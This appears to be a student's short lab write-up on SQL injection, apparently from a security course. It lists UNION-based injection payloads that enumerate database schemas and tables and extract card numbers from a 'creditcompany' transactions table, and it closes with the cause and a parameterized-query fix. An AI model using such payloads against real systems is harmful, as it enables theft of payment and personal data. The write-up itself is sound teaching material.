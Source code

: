 # SQL injection

## Steps

**first steps to get "a" credit card number**
    - Steps: get info about metadata (schmema, table columns, and ultimatly the data with the credit card number)
    - ') UNION SELECT schema_name,1,1,1,1 FROM INFORMATION_SCHEMA.SCHEMATA #
    - ') UNION ALL SELECT table_name,1,1,1,1 FROM INFORMATION_SCHEMA.TABLES WHERE table_schema = 'creditcompany' #
    - ') UNION ALL SELECT customerid,cardnumber,1,1,1 FROM creditcompany.transactions #
    - > credit card number of a person: "1323-4545-6767-8989" (no info to which person this credit card no belongs)


## Answers
- Explain the security problem
    - user input is directly integrated in sql statement. (probably just some string concatenation)
- Explain your attack (exploit, screenshot, hacking journal)
- Explain mitigation (remedy)
    - use parameterized queries (prepared statements)